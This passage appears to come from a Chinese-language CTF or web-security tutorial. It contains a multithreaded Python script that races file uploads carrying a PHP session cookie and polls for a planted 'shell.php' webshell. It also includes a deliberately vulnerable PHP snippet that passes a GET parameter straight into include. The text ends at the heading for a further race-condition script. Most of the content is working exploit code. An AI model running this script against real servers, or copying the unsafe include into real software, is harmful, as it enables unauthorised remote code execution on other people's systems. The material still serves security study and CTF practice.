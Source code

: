 ```python
cookies = {
    'PHPSESSID': sessionid
}

# 上传文件函数
def upload_file():
    while True:
        response = requests.post(url, data=data, files=file, cookies=cookies)
        time.sleep(1)  # 为了避免发送请求过快，可以适当增加间隔时间

# 检查文件是否已创建
def check_file():
    while True:
        r = requests.get(url + 'shell.php')
        if r.status_code == 200:
            print('Webshell created successfully')
            print(r.text)
            break
        else:
            print('error：', r.status_code)
        # time.sleep(1)  # 为了避免发送请求过快，可以适当增加间隔时间

# 创建并启动线程
threads = []
for _ in range(5):  # 创建5个上传线程
    t = threading.Thread(target=upload_file)
    t.start()
    threads.append(t)

for _ in range(5):  # 创建5个检查线程
    t = threading.Thread(target=check_file)
    t.start()
    threads.append(t)

# 等待所有线程完成
for t in threads:
    t.join()
```


### get表单类型

对post类型稍加修改

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
include$_GET[1];
```

条件竞争脚本
